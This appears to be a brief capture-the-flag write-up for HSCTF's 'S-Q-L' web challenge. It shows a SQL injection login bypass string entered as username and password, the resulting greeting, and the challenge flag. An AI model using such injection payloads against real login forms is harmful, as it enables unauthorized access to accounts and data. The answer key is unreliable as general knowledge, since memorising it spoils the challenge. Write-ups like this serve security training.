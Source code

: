 # S-Q-L
Web

## Challenge 

Written by: dwang

Keith keeps trying to keep his flag safe. This time, he used a database and some PHP.

https://s-q-l.web.chal.hsctf.com/

## Solution

Submit SQL injection strings

	Username: 1' or '1' = '1
	Password: 1' or '1' = '1

We get result

	Hello Keith!
	The flag is hsctf{mysql_real_escape_string}

Reference

- https://stackoverflow.com/questions/50591776/why-is-my-code-not-vulnerable-to-sql-injection

## Flag

	hsctf{mysql_real_escape_string}
